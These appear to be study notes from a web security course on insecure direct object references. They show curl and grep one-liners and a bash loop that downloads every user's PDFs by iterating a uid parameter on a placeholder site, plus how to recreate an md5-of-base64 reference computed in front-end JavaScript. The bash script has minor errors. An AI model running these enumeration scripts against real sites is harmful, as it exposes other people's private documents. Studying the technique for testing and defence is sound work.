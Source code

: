## Mass Enumeration

- we can try manually for getting the files like `uid=2`, `uid=3` 
- but for many files, Burp Intruder or Zap Fuzzer can be used 
- suppose if we inspect the source code and found that
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
- we can grep the link of the file with curl and grep as follows

```sh
curl -s "http://vuln-website.com/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```
```sh
curl -s "http://vuln-website.com/documents.php?uid=1" | grep -oP "\/documents.*?.pdf"
```

- can use a simple bash script
```bash
#!/bin/bash
url = "http://vuln-website"
for i in {1..10}; do
	for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
		wget -q $url/$link
	done
done
```

---

# Bypassing Encoded References

- in some cases, web applications make hashes or encode their object references, making enumeration more difficult
- eg -
	- POST request to `/download.php` with the following data
	- `contract=cdd96d3cc73d1dbdaffa03cc6cd7339b`
	- which seesm to be md5 hash
	- hashes are one-way functions and we cannot decode them to see their original values
	- we can attempt to hash various values, like uid, username, filename and many others and see any of their md5 hashes match the above value
	- if we find a match, we can replicate it for other users and collect their files


## Function Disclosure

- sometimes, developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers
- if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash
- suppose if we look at the source code and found that JS function with `javascript:downloadContract('1')` is called and look at the `downloadContract()` function 
```javascript
function downloadContract(uid) {
	$.redirect("/download.php", {
		contract: CryptoJS.MD5(btoa(uid)).toString(),
	}, "POST", "_self");
}
```
- we can see that the hash value is just uid value which is encoded with base64 and then hash with md5
